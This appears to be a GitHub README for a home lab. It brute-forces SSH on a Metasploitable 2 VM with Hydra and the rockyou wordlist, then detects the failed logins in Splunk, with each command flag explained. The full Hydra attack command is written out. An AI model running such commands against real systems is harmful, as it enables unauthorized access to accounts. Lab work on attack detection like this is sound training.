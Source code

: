 # 🔐 SSH Brute Force Attack using Hydra

## 🎯 Objective
Simulate a brute-force SSH attack on Metasploitable 2 using Hydra and detect the failed login attempts using Splunk.

---

## 🛠️ Tools & Setup

| Tool           | Role                                |
|----------------|-------------------------------------|
| Hydra (Kali)   | Performs brute-force on SSH login   |
| Metasploitable | Exposes SSH service (port 22)       |
| Splunk (Windows)| Monitors logs via rsyslog (UDP 514) |

- **Target IP (Metasploitable)**: `192.168.56.105`
- **Attacker IP (Kali)**: `192.168.56.103`
- **Splunk IP**: `192.168.56.104`

> 🔧 Ensure `rsyslog` is configured properly to forward logs from Metasploitable to Splunk.

---

## ⚔️ Attack Command (Hydra - SSH)

```bash
hydra -l msfadmin -P /usr/share/wordlists/rockyou.txt ssh://192.168.56.105 -V -f


---


#💡 Explanation:
-l msfadmin: Username on Metasploitable

-P rockyou.txt: Password list

ssh://: Target protocol (port 22)

-V: Verbose mode

-f: Stop after a valid credential is found

✅ Result
Attack executed with Hydra over SSH

Syslog data collected from Metasploitable

Detection query confirms failed login patterns

Can be visualized via a Splunk dashboard or alert
